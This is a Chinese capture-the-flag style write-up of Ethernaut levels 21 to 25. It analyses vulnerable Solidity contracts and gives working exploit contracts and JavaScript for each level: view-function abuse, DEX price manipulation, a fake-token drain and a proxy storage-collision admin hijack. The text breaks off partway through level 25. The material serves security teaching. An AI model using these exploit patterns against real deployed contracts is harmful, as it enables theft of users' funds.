


# Ethernaut（21-25）详解-先知社区

> **来源**: https://xz.aliyun.com/news/18505  
> **文章ID**: 18505

---

# Ethernaut（21-25）详解

## 第21关

描述：您能在商店以低于要求的价格购买到商品吗？

可能有帮助的注意点：

* shop合约预计由买家使用
* 了解view函数的限制

代码如下：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

代码也是很短洁

### 知识点

函数可以声明为 view，在这种情况下它们承诺不修改状态。

以下语句被视为修改状态：

1. 写入状态变量（存储和临时存储）。
2. [发出事件](https://learnblockchain.cn/docs/solidity/contracts.html#events)。
3. [创建其他合约](https://learnblockchain.cn/docs/solidity/control-structures.html#creating-contracts)。
4. 使用 selfdestruct。
5. 通过调用发送以太。
6. 调用任何未标记为 view 或 pure 的函数。
7. 使用低级调用。
8. 使用包含某些操作码的内联汇编。

在 0.5.0 版本之前，编译器未对 view 函数使用 STATICCALL 操作码。 这使得通过使用无效的显式类型转换在 view 函数中进行状态修改成为可能。 通过对 view 函数使用 STATICCALL，在 EVM 层面上防止了对状态的修改。

### 分析代码

给我们指定了接口，限制了函数的类型修饰

```
interface Buyer {
    function price() external view returns (uint256);
}
```

定义了一个Shop合约

```
contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

代码逻辑很简单，就是判断钱够不够，够了就买，而且buyer的接口使用了view修饰符，初心很好，但是没什么用，因为\_buyer.price()调用了两次，我们可以先进去分支，然后改变price的值，这时我们发现isSold是public，那这个操作就需要借助isSold变量来实现了

攻击逻辑就是：

第一次 if (isSold = flase){return 100} 满足 \_buyer.price() && !isSold -------> 进入if分支

第二次 if(isSold = true){return 0} 成功修改price的值

### exp

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop {
    function buy() external;
    function isSold() external view returns (bool);
}

contract Buyer {
    Shop public shop;

    constructor(address _shop){
        shop = Shop(_shop);
    }

    function price() public view returns (uint256) {
        if(shop.isSold()){
            return 0;
        }else {
            return 100;
        }
    }

    function buy() public {
        shop.buy();
    }
}
```


## 第22关

描述：此题目的目标是让您破解下面的基本合约并通过价格操纵窃取资金。

一开始您可以得到10个token1和token2。合约以每个代币100个开始。

如果您设法从合约中取出两个代币中的至少一个，并让合约得到一个的“坏”的token价格，您将在此级别上取得成功。

注意： 通常，当您使用ERC20代币进行交换时，您必须approve合约才能为您使用代币。为了与题目的语法保持一致，我们刚刚向合约本身添加了approve方法。因此，请随意使用 contract.approve(contract.address, <uint amount>) 而不是直接调用代币，它会自动批准将两个代币花费所需的金额。 请忽略SwappableToken合约。

可能有帮助的注意点：

* 代币的价格是如何计算的？
* approve方法如何工作？
* 您如何批准ERC20 的交易？

代码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

### 分析代码

**swap函数**

```
function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }
```

就是一个代币交换的过程

**getSwapPrice函数**

```
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }
```

兑换价格由 **当前池子的代币余额比例**决定。

* 如果我们想从 token1 换 token2：

swapprice = amount\*to\_balanceOf/from\_balaceOf

**漏洞点**：我们可以通过 **先用较大数量的 token1 换 token2，反复操作，操纵池子比例** 来获得超高兑换比率，最终耗尽某个代币池子。

**approve 函数**

```
function approve(address spender, uint256 amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
}
```

* 这个 approve 其实是帮助玩家一次性给 DEX 授权两个代币（相当于 token1.approve(dex, amount) 和 token2.approve(dex, amount)）。
* **利用方式**：调用一次 dex.approve(dex.address, )，之后 swap 就不会因为缺少授权而失败。

初始情况：

* 我们有： token1 = 10 和 token2 = 10。
* DEX 池子： token1 = 100 和 token2 = 100。

攻击的目标是通过反复交换，把其中一个代币池子抽干。

```
one: 10token1->token2：
token1=10; DEX1:100
token2=10; DEX2:100
swapprice=10*100/100=10

two: 20token2->token1
token1=0; DEX1:110
token2=20; DEX2:90
swapprice=20*110/90=24.444...

three: ......依此类推
```

得如下表格

|  |  |  |  |
| --- | --- | --- | --- |
| **步骤** | **攻击者余额** | **合约余额** | **价格计算** |
| 初始 | token1:10 token2:10 | token1:100 token2:100 | 1:1 |
| 1. 后 | token1:0 token2:20 | token1:110 token2:90 | 1 token1 = 0.818 token2 |
| 2. 后 | token1:24 token2:0 | token1:86 token2:110 | 1 token2 = 0.782 token1 |
| 3. 后 | token1:0 token2:30 | token1:110 token2:80 | 1 token1 = 0.727 token2 |
| 4. 后 | token1:41 token2:0 | token1:69 token2:110 | 1 token2 = 0.627 token1 |
| 5. 后 | token1:0 token2:65 | token1:110 token2:45 | 1 token1 = 0.409 token2 |
| 6. 后 | token1:110 token2:20 | token1:0 token2:90 | **token1耗尽** |

### exp

那我们直接上攻击脚本

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./22.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Attack{
    Dex public dex;
    address public token1;
    address public token2;
    address public owner;

    constructor(address _dex, address _token1, address _token2){
        dex = Dex(_dex);
        token1 = _token1;
        token2 = _token2;
        owner = msg.sender;
    }

    function attack() public{
        ERC20(token1).transferFrom(owner,address(this),10);
        ERC20(token2).transferFrom(owner,address(this),10);
        dex.approve(address(dex), 114514);

        dex.swap(token1, token2, 10);
        dex.swap(token2, token1, 20);
        dex.swap(token1, token2, 24);
        dex.swap(token2, token1, 30);
        dex.swap(token1, token2, 41);
        dex.swap(token2, token1, 45);
    }

    function retrieve_all() public{
        ERC20(token1).transfer(owner, 110);
        ERC20(token2).transfer(owner, 20);
    }
}
```

这个次数比较少，直接这样就行，多的话就得写自动化脚本了，比如下面这个

```
async function pwn(maxiters = 10) { 
  // initial settings
  const T1 = await contract.token1()
  const T2 = await contract.token2()
  const DEX = contract.address
  const PLAYER = player
  let a, sa;
  let [t1_player, t2_player, t1_dex, t2_dex] = (await Promise.all([
      contract.balanceOf(T1, PLAYER),
      contract.balanceOf(T2, PLAYER),
      contract.balanceOf(T1, DEX),
      contract.balanceOf(T2, DEX)
    ])).map(bn => bn.toNumber())

  console.log(`
  Initial
    D1: ${t1_dex}
    D2: ${t2_dex}
    P1: ${t1_player}
    P2: ${t2_player}`)

  for (i = 1; i != maxiters && t1_dex > 0 && t2_dex > 0; ++i) { 
    if (i % 2) {
      // trade t1 to t2
      a = t1_player
      sa = (await contract.getSwapPrice(T1, T2, a)).toNumber()
      if (sa > t2_dex) {
        a = t1_dex
      }

      // make the call
      await contract.approve(contract.address, a)
      await contract.swap(T1, T2, a)
    } else {
      // trade t2 to t1
      a = t2_player
      sa = (await contract.getSwapPrice(T2, T1, a)).toNumber()
      if (sa > t1_dex) {
        a = t2_dex
      }

      // make the call
      await contract.approve(contract.address, a)
      await contract.swap(T2, T1, a)
    }

    // new balances
    ;[t1_player, t2_player, t1_dex, t2_dex] = (await Promise.all([
      contract.balanceOf(T1, PLAYER),
      contract.balanceOf(T2, PLAYER),
      contract.balanceOf(T1, DEX),
      contract.balanceOf(T2, DEX)
    ])).map(bn => bn.toNumber())

    console.log(
      `Trade #${i}
        D1: ${t1_dex}
        D2: ${t2_dex}
        P1: ${t1_player}
        P2: ${t2_player}
        Gave: ${a} Token ${i % 2 ? "1" : "2"}
        Took: ${sa} Token ${i % 2 ? "2" : "1"}`)

  }
}
```

## 第23关

描述：此级别将要求您以不同的方式破坏DexTwo，这是对前一题目进行了细微修改的Dex合约。

您需要从DexTwo合约中提取token1和token2的所有余额才能通过此题。

一开始您可以得到10个token1和token2。DEX合约仍然以每个代币100个开始。

可能有帮助的注意点：

* 交换方法是如何修改的？
* 你可以在攻击中使用自定义代币合约吗？
* 获取新实例

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

### 分析代码

```
function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }
    
    
function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }
```

我们可以发现，代码的区别就是下面这个没有限制谁对谁转账，那我们自然而然的就是可以想到，我们自己写一个代币，把这两个的钱全都转成我们的代币不就行了

发送 100 个代币 3 可获得 100 个代币 1/ 100 个代币 4 可获得 100 个代币 2。由于 to 和 from 代币的 DEX 余额相同，因此交换金额将等于我们设置的金额。

### exp

部署我们的代币

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract BadToken3 is ERC20 {
  constructor() ERC20("MyToken3", "MT3") {
    _mint(msg.sender, 1000);
  }
}

contract BadToken4 is ERC20 {
  constructor() ERC20("MyToken4", "MT4") {
    _mint(msg.sender, 1000);
  }
}
```

部署之后再js操控合约

```
// settings
const amount = 100
const T1 = await contract.token1()
const T2 = await contract.token2()
const T3 = "0x..." // Token 3
const T4 = "0x..." // Token 4

// deplete Token 1
// DEX must have 'amount' T3, and also 'amount' allowance to take T3 from you
await contract.swap(T3, T1, amount)
// deplete Token 2
// DEX must have 'amount' T4, and also 'amount' allowance to take T4 from you
await contract.swap(T4, T2, amount)
```

## 第24关

描述：事实上，如今，为DeFi运营付费是不可能的。

一群朋友发现了如何通过在一个交易中批量处理来稍微降低执行多个交易的成本，因此他们开发了一个智能合约来执行此操作。

他们需要这个合约是可升级的，以防代码包含错误，他们还想阻止团队外的人使用它。为此，他们投票并分配了两个在系统中具有特殊角色的人： 管理员：有权更新智能合约的逻辑； 所有者：控制允许使用合约的地址白名单。 合同已部署，该组被列入白名单。每个人都为他们对抗邪恶矿工的成就而欢呼。

他们几乎不知道，他们的午餐钱处于危险之中…… 你需要劫持这个钱包，去成为代理的管理员。

可能有帮助的注意点:

* 了解委托调用的工作原理以及执行调用时 msg.sender 和 msg.value 的行为方式。
* 了解代理模式及其处理存储变量的方式。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

### 前置知识

可升级合约：

我们在以太坊上所做的每笔交易都是不可变的，无法修改或更新。这是使网络安全并帮助网络上的任何人验证和验证交易的优势。由于这种限制，开发人员在更新合约代码时会遇到问题，因为它一旦部署在区块链上就无法修改。

为了克服这种情况，引入了可升级的合约。这种部署模式由两个合约组成——一个代理合约（存储层）和一个实现合约（逻辑层）。

* **代理合约**：一个作为代理的合约，将所有调用委托给它所代理的合约。在这里，它也会被称为存储层。
* **实现合约**：你想升级或修补的合约。这是代理合约被代理的合约。在这种情况下，它也是**逻辑层**

合约代理：委托代理、透明代理、ERC-1967、UUPS代理、最小代理、信标代理

这关用到的是透明代理，建议阅读这篇[文章](https://learnblockchain.cn/article/7249)和[这个](https://juejin.cn/post/7397284874632118298)来了解代理

* 简单地在代理合约中声明 address implementation会引起与实现合约的存储发生冲突，即实现合约中的多个变量在存储槽中有重叠。

因此，只要 **Proxy 和 Implementation 在同一地址上跑（通过代理调用），它们的“变量名”无关紧要，关键是存储槽编号是否一致**。

当ContractA通过delegatecall调用ContractB的函数implementation()时，该函数在ContractB的代码上执行，但整个**上下文环境**（msg.sender、msg.value和合约的存储）是来自ContractA。

需要记住的一个关键概念是，如果ContractB的代码在delegatecall期间更新了合约的存储，它将**不修改****ContractB****的存储**，而是**修改****ContractA****的存储！**

### 分析代码

代理：

```
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}
```

**Proxy 与 Implementation 共用同一份存储**（因为 delegatecall）。

两个合约**变量声明顺序不同**，导致：

* Proxy 的 pendingAdmin（slot 0）被 Wallet 当成 owner 读。
* Proxy 的 admin（slot 1）被 Wallet 当成 maxBalance 读写。

钱包：

```
contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    //修改器，限制只能是白名单内的才能操作
    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    //设置最大balance
    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    //添加白名单
    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    //存款功能
    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value; //增加余额
    }

    //提款功能
    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    //多次调用函数 重点聚集在这个函数
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false; //定义一个布尔变量来追踪deposit()函数调用情况
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            //从 _data 中取出前 4 个字节（函数选择器）。在以太坊 ABI 编码中，前 4 字节是函数的 selector（函数签名的哈希的前4字节）。mload(add(_data, 32))：跳过数组长度的前 32 字节，取出真正的数据内容的前 4 字节。
            assembly {
                selector := mload(add(_data, 32))
            }
            
            //限制deposit调用次数只能是1，但可以绕过
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);//delegatecall调用
            require(success, "Error while delegating call");
        }
    }
}
```

这个合约代码很长，很多逻辑都在里面。虽然设计上禁止重复 deposit，但是：

* **delegatecall** **可以再次调用** **multicall****，导致新的** **depositCalled** **局部变量重新初始化为** **false**。
* 这样攻击者可以用嵌套的 multicall 调用 deposit() 多次，每次都认为 msg.value 还在。



这段代码中，\_logic 就是指向 PuzzleWallet 的地址，表示：**以后只要调用不到 Proxy 自身的函数，就会 delegatecall 到** **\_logic****（也就是 PuzzleWallet）去执行**。

由于 delegatecall 共用存储槽，**调用** **PuzzleWallet** **的函数时，实际上修改的是** **PuzzleProxy** **的 slot0 和 slot1**。 例如：

* PuzzleWallet 的 owner 和 PuzzleProxy 的 pendingAdmin 占用 **同一个 slot0**。
* PuzzleWallet 的 maxBalance 和 PuzzleProxy 的 admin 占用 **同一个 slot1**。

就是长下面这个样子

|  |  |  |
| --- | --- | --- |
| **slot** | **PuzzleProxy** | **PuzzleWallet** |
| 0 | pendingAdmin | owner |
| 1 | admin | maxBalance |
| 2 |  | whitelisted (map) |
| 3 |  | balances (map) |

好，那么我们自己搭一遍试试

[UpgradeableProxy](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/src/helpers/UpgradeableProxy-08.sol).sol

[Proxy](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/ecd2ca2cd7cac116f7a37d0e474bbb3d7d5e1c4d/contracts/proxy/Proxy.sol).sol

[Address](https://github.com/athiwatp/openzeppelin-solidity/blob/master/contracts/utils/Address.sol).sol //我找到的是0.5多的，不过向上可以兼容，搭的时候记得改成0.8+就行

搭的时候，先部署PuzzleWallet合约然后部署PuzzleProxy，而对于可升级合约的搭建，就需要在wallet合约上加一个Proxy的“壳”，就是用At Address来部署

部署完成后，开始实现攻击

第一步：调用proposeAdmin成为管理员

```
Wallet.proposeNewAdmin(address(this)); 
/*
    这里一定要是address(this)，因为owner = msg.sender;，对于msg.sender是调用者，在后面我们添加白名单时msg.sender等于我们攻击合约的地址而并非我们的钱包地址
*/
```

第二步：添加白名单

Wallet.addToWhitelist(address(this)); //这里同样添加我们的攻击合约地址

第三步：嵌套调用deposit

```
bytes[] memory depositSelector = new bytes[](1);//定义一个字节数组
depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector); //将调用的deposit进行编码，即calldata，等价于wallet.deposit()
bytes[] memory multicallData = new bytes[](1); //再定义一个，用来嵌套
//生成wallet.multicall()的调用编码（calldata），嵌套进去depositSelector
multicallData[0] = abi.encodeWithSelector(
        wallet.multicall.selector, 
        depositSelector
    );

bytes[] memory nestedCalls = new bytes[](2); //定义两个长度的字节数组
nestedCalls[0] = depositSelector[0]; // 直接存款
nestedCalls[1] = multicallData[0];   // 嵌套存款
        
wallet.multicall{value: 1 ether}(nestedCalls);
/*
等价于
wallet.multicall([
  wallet.deposit(),                     // depositCalled = true
  wallet.multicall([wallet.deposit()])  
  // 再次调用multicall，depositCalled = false 再次deposit，不受第一个影响
])
所以balances[msg.sender] += msg.value被执行了两次，而address(this).balance只有1ether
*/
```

第四步：取钱

wallet.execute(<hacker钱包>, 2 ether, ""); //直接调用取钱就行

第五步：劫持admin

wallet.setMaxBalance(uint256(uint160(attacker))); //改掉那个maxBalance就好了

### exp

经测试，本地可以打通，看关卡当前的合约余额



exp如下

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPuzzleProxy {
    function proposeNewAdmin(address _newAdmin) external;
    function admin() external view returns (address);
}

interface IPuzzleWallet {
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function multicall(bytes[] calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
    function owner() external view returns (address);
}

contract Exploit {
    IPuzzleWallet public wallet;
    address public attacker;
    
    constructor(address _walletAddress) payable {
        wallet = IPuzzleWallet(_walletAddress);
        attacker = msg.sender;
    }
    
    function step1_proposeAdmin() external {
        // 1. 提议新管理员（成为owner）
        IPuzzleProxy(address(wallet)).proposeNewAdmin(address(this));
        require(wallet.owner() == address(this), "Step1 failed: Not owner");
    }
    
    function step2_whitelist() external {
        // 2. 将攻击合约加入白名单
        wallet.addToWhitelist(address(this));
    }
    
    function step3_nestedDeposit() external payable {
        require(msg.value == 0.001 ether, "Send exactly 0.001 ETH");
        
        // 3. 构造嵌套multicall
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);
        
        bytes[] memory multicallData = new bytes[](1);
        multicallData[0] = abi.encodeWithSelector(
            wallet.multicall.selector, 
            depositSelector
        );
        
        bytes[] memory nestedCalls = new bytes[](2);
        nestedCalls[0] = depositSelector[0]; // 直接存款
        nestedCalls[1] = multicallData[0];   // 嵌套存款
        
        // 执行攻击
        wallet.multicall{value: 0.001 ether}(nestedCalls);
    }
    
    function step4_withdraw() external {
        // 4. 提取资金
        wallet.execute(attacker, 0.002 ether, "");
    }
    
    function step5_hijackAdmin() external {
        // 5. 劫持管理员
        wallet.setMaxBalance(uint256(uint160(attacker)));
        require(
            IPuzzleProxy(address(wallet)).admin() == attacker, 
            "Step5 failed: Not admin"
        );
        
        // 退还剩余ETH
        selfdestruct(payable(attacker));
    }
    
    // 允许接收ETH
    receive() external payable {}
}
```


## 第25关

描述：Ethernaut 的摩托车采用全新的可升级引擎实现。

你能自毁 (selfdestruct) 它的引擎并使摩托车无法使用吗？

以下内容可能有帮助：

* [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)
* [UUPS](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) upgradeable pattern
* [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract

```
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
